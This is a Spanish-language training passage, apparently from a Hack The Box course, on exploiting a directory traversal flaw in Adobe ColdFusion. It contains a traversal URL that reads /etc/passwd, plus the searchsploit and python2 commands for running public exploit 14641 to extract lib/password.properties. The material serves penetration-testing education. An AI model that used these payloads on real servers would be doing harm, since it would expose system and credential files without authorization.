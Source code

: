 Con esta vulnerabilidad, los atacantes pueden acceder a archivos fuera del directorio previsto al incluir`../`secuencias en el parámetro del archivo. Por ejemplo, considere la siguiente URL:

Código:http

```
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=en

```

En este ejemplo, la URL intenta acceder al`mappings.cfm`archivo en el`/CFIDE/administrator/settings/`directorio de la aplicación web con una especificación`en`lugar. Sin embargo, se puede ejecutar un ataque transversal del directorio manipulando el parámetro local de la URL, lo que permite a un atacante leer archivos arbitrarios ubicados fuera del directorio previsto, como archivos de configuración o archivos del sistema.

Código:http

```
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd

```

En este ejemplo, el`../`Se han utilizado secuencias para reemplazar un`locale`para atravesar la estructura del directorio y acceder al`passwd`archivo ubicado en el`/etc/`directorio.

Usando`searchsploit`, copie el exploit a un directorio de trabajo y luego ejecute el archivo para ver qué argumentos requiere.

Atacando a Coldfusion

```
xnoxos@htb[/htb]$ searchsploit -p 14641  Exploit: Adobe ColdFusion - Directory Traversal
      URL: https://www.exploit-db.com/exploits/14641
     Path: /usr/share/exploitdb/exploits/multiple/remote/14641.py
File Type: Python script, ASCII text executable

Copied EDB-ID#14641's path to the clipboard

```

### **Coldfusion - Explotación**

Atacando a Coldfusion

```
xnoxos@htb[/htb]$ cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .xnoxos@htb[/htb]$ python2 14641.py usage: 14641.py <host> <port> <file_path>
example: 14641.py localhost 80 ../../../../../../../lib/password.properties
if successful, the file will be printed

```

El`password.properties`Archivo en ColdFusion es un archivo de configuración que almacena de forma segura encriptadas contraseñas para varios servicios y recursos que utiliza ColdFusion Server. Contiene una lista de pares de valor clave, donde la clave representa el nombre del recurso y el valor es la contraseña cifrada. Estas contraseñas encriptadas se utilizan para servicios como`database connections`, `mail servers`, `LDAP servers`y otros recursos que requieren autenticación. Al almacenar contraseñas cifradas en este archivo, ColdFusion puede recuperarlas automáticamente y usarlas para autenticarse con los servicios respectivos sin requerir la entrada manual de contraseñas cada vez. El archivo generalmente está en el`[cf_root]/lib`directorio y se puede gestionar a través del administrador de ColdFusion.
